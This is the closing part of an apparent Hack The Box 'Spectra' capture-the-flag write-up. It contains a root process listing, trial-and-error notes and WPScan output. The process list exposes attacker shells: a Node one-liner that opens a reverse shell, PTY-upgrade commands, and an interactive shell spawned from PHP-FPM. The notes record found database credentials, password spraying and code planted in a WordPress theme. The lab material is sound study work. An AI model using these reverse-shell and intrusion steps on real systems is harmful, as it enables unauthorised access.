root        164  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_25]
root        165  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_26]
root        166  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_26]
root        167  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_27]
root        168  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_27]
root        169  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_28]
root        170  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_28]
root        171  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_29]
root        172  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_29]
root        175  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_30]
root        176  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_30]
root        179  0.0  0.0      0     0 ?        S    May14   0:00  \_ [scsi_eh_31]
root        180  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [scsi_tmf_31]
root        208  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [dm_bufio_cache]
root        210  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ipv6_addrconf]
root        211  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kstrp]
root        216  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/u257:0]
root        217  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [charger_manager]
root        220  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kworker/0:1H-kblockd]
root        221  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ext4-rsv-conver]
root        334  0.0  0.0      0     0 ?        S    May14   0:00  \_ [jbd2/sda16-8]
root        335  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ext4-rsv-conver]
root        338  0.0  0.0      0     0 ?        S    May14   0:00  \_ [jbd2/sda23-8]
root        339  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ext4-rsv-conver]
root        355  0.0  0.0      0     0 ?        S    May14   0:00  \_ [irq/16-vmwgfx]
root        356  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ttm_swap]
root        364  0.0  0.0      0     0 ?        S<   May14   0:00  \_ [loop0]
root        366  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kdmflush]
root        377  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kcryptd_io/254:]
root        378  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [kcryptd/254:0]
root        379  0.0  0.0      0     0 ?        S    May14   0:00  \_ [dmcrypt_write/2]
root        387  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [dio/sda16]
root        389  0.0  0.0      0     0 ?        S    May14   0:00  \_ [jbd2/dm-0-8]
root        390  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [ext4-rsv-conver]
root        736  0.0  0.0      0     0 ?        S<   May14   0:00  \_ [loop1]
root        819  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [cfg80211]
root       2018  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [iprt-VBoxWQueue]
root       2028  0.0  0.0      0     0 ?        S    May14   0:00  \_ [iprt-VBoxTscThr]
root       2519  0.0  0.0      0     0 ?        I<   May14   0:00  \_ [cryptd]
root      13637  0.0  0.0      0     0 ?        I    07:44   0:00  \_ [kworker/1:0-mm_percpu_wq]
root      17249  0.0  0.0      0     0 ?        I    10:50   0:00  \_ [kworker/3:2-rcu_par_gp]
root      18482  0.1  0.0      0     0 ?        I    11:44   0:09  \_ [kworker/0:2-rcu_par_gp]
root      18636  0.0  0.0      0     0 ?        I    11:52   0:00  \_ [kworker/3:1-mm_percpu_wq]
root      18656  0.0  0.0      0     0 ?        I    11:52   0:02  \_ [kworker/2:1-rcu_par_gp]
root       1990  0.2  0.0      0     0 ?        I    12:54   0:07  \_ [kworker/0:0-events]
root       2097  0.0  0.0      0     0 ?        I    12:58   0:00  \_ [kworker/u256:4-events_unbound]
root       2451  0.0  0.0      0     0 ?        I    13:13   0:00  \_ [kworker/u256:1-kcryptd/254:0]
root       2504  0.0  0.0      0     0 ?        I    13:14   0:01  \_ [kworker/2:2-events]
root       2507  0.0  0.0      0     0 ?        I    13:14   0:00  \_ [kworker/1:1-events]
root       2770  0.0  0.0      0     0 ?        I    13:28   0:00  \_ [kworker/u256:2-events_unbound]
root       3085  0.0  0.0      0     0 ?        I    13:43   0:00  \_ [kworker/u256:3-kcryptd/254:0]
root          1  0.0  0.1  12860  4072 ?        Ss   May14   0:05 /sbin/init
root        240  0.0  0.1  17040  4060 ?        Ss   May14   0:02 udevd --daemon
syslog      547  0.0  0.2  35960 11280 ?        S    May14   0:01 /usr/lib/systemd/systemd-journald
message+    636  0.0  0.0   9912  2808 ?        Ss   May14   0:10 dbus-daemon --system --fork
syslog      665  0.0  0.0 299140  2480 ?        Sl   May14   0:00 /usr/sbin/rsyslogd -n -f /etc/rsyslog.chromeos -i /tmp/rsyslogd.pid
root        712  0.0  0.0   4372   772 ?        Ss   May14   0:00 /bin/sh -e /proc/self/fd/9
root        761  0.0  0.0   7344  2324 ?        S    May14   0:00  \_ bash /mnt/stateful_partition/rc.local
root        779  0.0  0.0   7740  2852 ?        S    May14   0:03      \_ /bin/bash /root/script.sh
root       1230  0.0  0.0   4372  1772 ?        S    May14   0:00          \_ /bin/sh /usr/local/bin/mysqld_safe --bind-address=0.0.0.0 --user=chronos
chronos    3711  0.4  5.2 1735812 210376 ?      Sl   May14   4:13          |   \_ /usr/local/bin/mysqld --basedir=/usr/local --datadir=/usr/local/data --plugin-dir=/
root       1231  0.1  0.1 248956  5656 ?        Sl   May14   1:30          \_ /usr/local/bin/vmtoolsd
root       3247  0.0  0.0   9404  1112 ?        S    13:51   0:00          \_ /usr/bin/coreutils --coreutils-prog-shebang=sleep /usr/bin/sleep 60
wpa         770  0.0  0.0  17284  3652 ?        S    May14   0:00 /usr/sbin/wpa_supplicant -u -s -O/run/wpa_supplicant
root        823  0.0  0.0  20072  2604 ?        Ss   May14   0:00 /usr/sbin/sshd
root       2161  0.0  0.1  28132  5944 ?        Ss   13:02   0:00  \_ sshd: katie [priv]
katie      2164  0.0  0.1  28132  4152 ?        S    13:02   0:00      \_ sshd: katie@pts/1
katie      2165  0.0  0.0   7476  2960 pts/1    Ss+  13:02   0:00          \_ -bash
chaps       826  0.0  0.2 101968  9604 ?        SLsl May14   0:00 /opt/tpm1/sbin/chapsd --auto_load_system_token
root        831  0.0  0.1 101144  6944 ?        Ssl  May14   0:16 /opt/tpm1/sbin/tpm_managerd --wait_for_ownership_trigger
root        939  0.0  0.0  16204    12 ?        Ss   May14   0:00 nginx: master process nginx
nobody      942  0.1  0.0  16748  2716 ?        S    May14   1:14  \_ nginx: worker process
root       1060  0.0  0.2 407200 10680 ?        SLsl May14   0:00 /opt/tpm1/sbin/cryptohomed --noclose --direncryption --vmodule=
shill      1099  0.0  0.3  34300 12916 ?        S    May14   0:03 /usr/bin/shill --log-level=0 --log-scopes= --vmodule=object_proxy=0,dbus_object=0,bus=0
syslog     1143  0.0  0.0   6540   756 ?        S    May14   0:00  \_ /usr/bin/logger --priority daemon err --tag /usr/bin/shill
dhcp       2587  0.0  0.0  11264  1240 ?        S    May14   0:00  \_ /sbin/dhcpcd -B -q -4 eth0=ethernet_any
root       1219  0.0  0.1 102928  5800 ?        Ss   May14   0:02 php-fpm: master process (/usr/local/etc/php-fpm.conf)
nginx     14148  0.0  1.0 207588 43976 ?        S    08:12   0:17  \_ php-fpm: pool www
nginx     16110  0.0  1.0 207588 42052 ?        Ss   09:57   0:03  |   \_ php-fpm: pool www
nginx     16111  0.0  0.0      0     0 ?        Z    09:57   0:00  |   |   \_ [sh] <defunct>
nginx     16224  0.0  1.0 207588 42052 ?        Ss   10:02   0:02  |   \_ php-fpm: pool www
nginx     16225  0.0  0.0      0     0 ?        Z    10:02   0:00  |       \_ [sh] <defunct>
nginx     17000  0.0  1.0 207588 40652 ?        Ss   10:40   0:01  |       \_ php-fpm: pool www
nginx     18096  0.0  0.8 207588 36028 ?        Ss   11:27   0:00  |           \_ php-fpm: pool www
nginx     18097  0.0  0.0   4372   864 ?        S    11:27   0:00  |               \_ /bin/sh -i
nginx     18114  0.0  0.1  21136  7248 ?        S    11:27   0:00  |                   \_ /usr/bin/python3.6 -c import pty;pty.spawn("/bin/bash")
nginx     18115  0.0  0.0   7476  2940 pts/0    Ss+  11:27   0:00  |                       \_ /bin/bash
nginx     14924  0.0  1.0 205316 41748 ?        S    08:56   0:12  \_ php-fpm: pool www
nginx     15213  0.0  0.9 205316 40024 ?        Ss   09:14   0:04  |   \_ php-fpm: pool www
nginx     15304  0.0  0.9 205316 40024 ?        Ss   09:20   0:02  |       \_ php-fpm: pool www
nginx     15305  0.0  0.0      0     0 ?        Z    09:20   0:00  |       |   \_ [sh] <defunct>
nginx     16116  0.0  0.9 205316 38624 ?        Ss   09:58   0:01  |       |   \_ php-fpm: pool www
nginx     16117  0.0  0.0      0     0 ?        Z    09:58   0:00  |       |   |   \_ [sh] <defunct>
nginx     16314  0.0  0.9 205572 38880 ?        Ss   10:07   0:02  |       |   |   \_ php-fpm: pool www
nginx     16315  0.0  0.0      0     0 ?        Z    10:07   0:00  |       |   |   |   \_ [sh] <defunct>
nginx     16554  0.0  0.9 205316 38868 ?        Ss   10:19   0:02  |       |   |   \_ php-fpm: pool www
nginx     16555  0.0  0.0      0     0 ?        Z    10:19   0:00  |       |   |       \_ [sh] <defunct>
nginx     16510  0.0  0.9 205316 38624 ?        Ss   10:16   0:01  |       |   \_ php-fpm: pool www
nginx     17987  0.0  0.9 205316 40024 ?        Ss   11:20   0:00  |       \_ php-fpm: pool www
nginx     17988  0.0  0.0      0     0 ?        Z    11:20   0:00  |           \_ [sh] <defunct>
nginx     14938  0.0  1.1 207648 44284 ?        S    08:56   0:12  \_ php-fpm: pool www
nginx     15218  0.0  1.0 207648 42360 ?        Ss   09:14   0:03      \_ php-fpm: pool www
nginx     16139  0.0  1.0 207648 42360 ?        Ss   09:58   0:02      |   \_ php-fpm: pool www
nginx     16140  0.0  0.0      0     0 ?        Z    09:58   0:00      |   |   \_ [sh] <defunct>
nginx     17168  0.0  1.0 207648 40960 ?        Ss   10:46   0:01      |   |   \_ php-fpm: pool www
nginx     17169  0.0  0.0      0     0 ?        Z    10:46   0:00      |   |   |   \_ [sh] <defunct>
nginx     17820  0.0  0.9 206624 38656 ?        Ss   11:13   0:01      |   |   \_ php-fpm: pool www
nginx     17821  0.0  0.0      0     0 ?        Z    11:13   0:00      |   |       \_ [sh] <defunct>
nginx     17600  0.0  1.0 207648 42360 ?        Ss   11:08   0:01      |   \_ php-fpm: pool www
nginx     17601  0.0  0.0      0     0 ?        Z    11:08   0:00      |       \_ [sh] <defunct>
nginx     17712  0.0  1.0 207648 42360 ?        Ss   11:13   0:00      \_ php-fpm: pool www
attesta+   1756  0.0  0.2 177440  8672 ?        SLsl May14   0:16 /opt/tpm1/sbin/attestationd
root       1839  0.0  0.3  38564 14572 ?        S    May14   0:00 python2.7 /opt/neverware/install_service.py
root       1936  0.0  0.1  19352  6504 ?        Ss   May14   0:00 periodic_scheduler --period=3600 --timeout=14400 --start_immediately --task_name=crash_sender -- /s
root       1939  0.0  0.1  20676  7976 ?        Ss   May14   0:00 /usr/bin/patchpaneld
patchpa+   1943  0.0  0.1  22632  7352 ?        Ss   May14   0:00  \_ /usr/bin/patchpaneld --adb_proxy_fd=4
patchpa+   1944  0.0  0.1  22632  7416 ?        Ss   May14   0:00  \_ /usr/bin/patchpaneld --mcast_proxy_fd=6
patchpa+   1945  0.0  0.1  22636  7496 ?        Ss   May14   0:00  \_ /usr/bin/patchpaneld --nd_proxy_fd=8
root       1960  0.0  0.2  29496  9316 ?        Ss   May14   0:00 neverware_daemon
root       2001  0.0  0.1  19352  6360 ?        Ss   May14   0:00 periodic_scheduler --period=3600 --timeout=600 --task_name=update_userdataauth -- /usr/libexec/cryp
devbrok+   2003  0.0  0.1  24948  7008 ?        S    May14   0:00 /usr/bin/permission_broker
avahi      2022  0.0  0.0  11596  2852 ?        S    May14   0:02 avahi-daemon: running [37e4d0c24a13bf62e953339960a008c2.local]
avahi      2049  0.0  0.0  11484   220 ?        S    May14   0:00  \_ avahi-daemon: chroot helper
root       2026  0.0  0.0   8612  1872 ?        Ss   May14   0:00 minijail0 -u cras -g cras -G --uts -v -l -T static -P /mnt/empty -b / / -k tmpfs /run tmpfs MS_NODE
cras       2092  0.0  0.0   6648  1840 ?        S    May14   0:00  \_ /sbin/minijail0 -n -S /usr/share/policy/cras-seccomp.policy -- /usr/bin/cras --disable_profile=
cras       2099  0.0  0.0      0     0 ?        Zl   May14   0:00      \_ [cras] <defunct>
modem      2029  0.0  0.1 243092  6960 ?        Sl   May14   0:00 /usr/sbin/ModemManager --log-level=INFO
root       2046  0.0  0.2  34520 10628 ?        Ss   May14   0:00 update_engine
root       2118  0.0  0.0  19352  3440 ?        Ss   May14   0:00 periodic_scheduler --period=86400 --timeout=600 --task_name=cleanup_logs -- /usr/sbin/chromeos-clea
root       2123  0.0  0.0   8992  1688 ?        S    May14   0:02 upstart-socket-bridge --daemon
root       2640  0.0  0.1  19352  6140 ?        Ss   May14   0:00 periodic_scheduler --period=3600 --timeout=60 --task_name=cros-machine-id-regen -- /usr/sbin/cros-m
root       2761  0.0  0.0   8744  1992 ?        Ss   May14   0:00 /sbin/minijail0 -u bluetooth -g bluetooth -G -c 3500 -n -- /usr/libexec/bluetooth/bluetoothd  --nod
bluetoo+   2789  0.0  0.2  27616  8164 ?        S    May14   0:00  \_ /usr/libexec/bluetooth/bluetoothd  --nodetach --configfile=/etc/bluetooth/main.conf --experimen
root       2786  0.0  0.0   8612   160 ?        S    May14   0:00 /sbin/minijail0 -T static --profile=minimalistic-mountns -i -p -v -r --uts -l -g syslog --mount-dev
root       2798  0.1  0.2  26996  9972 ?        S    May14   1:13  \_ /usr/bin/anomaly_detector
root       2794  0.0  0.0   8744   196 ?        S    May14   0:00 minijail0 -u bluetooth -g bluetooth -G -i -n -l -p -v -r -t --uts -e --profile minimalistic-mountns
bluetoo+   2802  0.0  0.1  21632  5772 ?        S    May14   0:00  \_ /usr/bin/btdispatch --vmodule=
root       2844  0.0  0.0   6648   188 ?        S    May14   0:00 minijail0 -i -p -v -r --uts -l --profile minimalistic-mountns -b /dev/log -b /dev/rtc -k /run /run
tlsdate    2845  0.0  0.0  15588  3440 ?        S    May14   0:00  \_ /usr/bin/tlsdated -- /usr/bin/tlsdate -v -C /usr/share/chromeos-ca-certificates -l
root       2856  0.0  0.0  13492   420 ?        S    May14   0:00      \_ /usr/bin/tlsdated -- /usr/bin/tlsdate -v -C /usr/share/chromeos-ca-certificates -l
root       2846  0.0  0.0   4372  1596 ?        Ss   May14   0:00 /bin/sh /usr/share/cros/init/activate_date.sh
root       3263  0.0  0.0   9404  1016 ?        S    13:51   0:00  \_ /usr/bin/coreutils --coreutils-prog-shebang=sleep /usr/bin/sleep 200
metrics    3092  0.0  0.2  29236  9696 ?        S    May14   0:21 /usr/bin/metrics_daemon --nodaemon
root       3117  0.0  0.0   6648   208 ?        S    May14   0:00 minijail0 --profile minimalistic-mountns -b /dev/log -b /dev/chromeos-low-mem -b /sys -k /var /var
root       3123  0.0  0.0  11564  2840 ?        S    May14   0:02  \_ /usr/bin/memd
root       3668  0.0  0.2  30340 10244 ?        Ss   May14   0:00 /usr/bin/cros_healthd
cros_he+   3673  0.0  0.1  32436  5728 ?        S    May14   0:00  \_ /usr/bin/cros_healthd
root       2624  0.0  0.7 876788 29348 ?        Ssl  13:19   0:00 /usr/local/share/nodebrew/node/v8.9.4/bin/node -e sh = child_process.spawn("/bin/sh"); net.connect(
root       2630  0.0  0.0   4372   880 ?        S    13:19   0:00  \_ /bin/sh
root       2647  0.0  0.1  21136  7048 ?        S    13:20   0:00      \_ /usr/bin/python3.6 -c import pty;pty.spawn("/bin/bash")
root       2648  0.0  0.0   7476  2844 pts/2    Ss   13:20   0:00          \_ /bin/bash
root       3265  0.0  0.0   9524  2384 pts/2    R+   13:51   0:00              \_ ps aux --forest
spectra /root #
```


# 90 - Summary

Foothold: 

- 
- 

Privilege Escalation:

- 
- 

# 95 - References

- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://www.digitalocean.com/community/tutorials/the-upstart-event-system-what-it-is-and-how-to-use-it
- https://gtfobins.github.io/gtfobins/node/#sudo

# 99 - To do and Trial-error

## Enumeration for privesc

Try

- sudo privileges
- Spray password => got katie
- Look for developers group
- MySQL 
  - ~~devtest:devteam01~~ => denied
  - dev:development01 => OK
- Home dir
  - katie
  - root
  - ~~chronos~~ => nothing
  - ~~user~~ => none
  - ~~nginx~~ => none
- OS version => Chrome OS

## WP-Dashboard

Try list:

- Add malicious code to template
  - ~~Twentytwenty~~ => Nope, not allowed
  - Twentynineteen => OK
- ~~Drop shell with Metasploit~~ => nvm




## TCP 80 

Try list:

- ~~URL BruteForce~~ => Nothing interesting
- ~~Use WPScan~~ => none
- ~~Admin page BruteForce~~ => nvm


### Wp-scan

```
→ root@kali «spectra» «10.10.14.21» 
$ wpscan --url http://spectra.htb/main/ -e vp,vt,cb,dbe,u1-15 --api-token TOKEN
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]N
[+] URL: http://spectra.htb/main/ [10.10.10.229]
[+] Started: Sat May 15 10:51:17 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: nginx/1.17.4
 |  - X-Powered-By: PHP/5.6.40
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://spectra.htb/main/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://spectra.htb/main/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://spectra.htb/main/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://spectra.htb/main/?feed=rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |  - http://spectra.htb/main/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.4.2</generator>
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.4.5
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.4.6
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM

[+] WordPress theme in use: twentytwenty
 | Location: http://spectra.htb/main/wp-content/themes/twentytwenty/
 | Last Updated: 2021-03-09T00:00:00.000Z
 | Readme: http://spectra.htb/main/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.7
 | Style URL: http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://spectra.htb/main/wp-content/themes/twentytwenty/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating Vulnerable Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Vulnerable Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:04 <===========================================================================================> (345 / 345) 100.00% Time: 00:00:04
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] No themes Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <============================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <==================================================================================================> (36 / 36) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=============================================================================================> (15 / 15) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] administrator
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Sat May 15 10:51:38 2021
[+] Requests Done: 581
[+] Cached Requests: 9
[+] Data Sent: 138.997 KB
[+] Data Received: 464.473 KB
[+] Memory used: 234.469 MB
[+] Elapsed time: 00:00:21
```

